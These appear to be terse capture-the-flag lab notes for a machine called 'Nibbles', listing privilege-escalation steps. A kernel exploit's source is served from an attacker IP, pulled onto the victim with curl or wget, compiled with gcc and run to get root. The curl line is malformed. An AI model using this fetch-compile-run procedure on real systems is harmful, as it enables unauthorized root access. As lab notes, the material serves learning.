



Index
priv esc through rationallove kernel exploit
copy raw data from rationallove/gitlibc
vi rationallove.c -> paste raw
setup httpserver

-as nibbles: curl -o <filename.c> rationallove.c 10.10.14.62:<httpserverport>/rationallove.c
or
wget 10.10.14.62:5555/rationallove.c


and compile it on the victim machine
gcc -o <exefilename> <filename.c>

run ./<exefilename>


root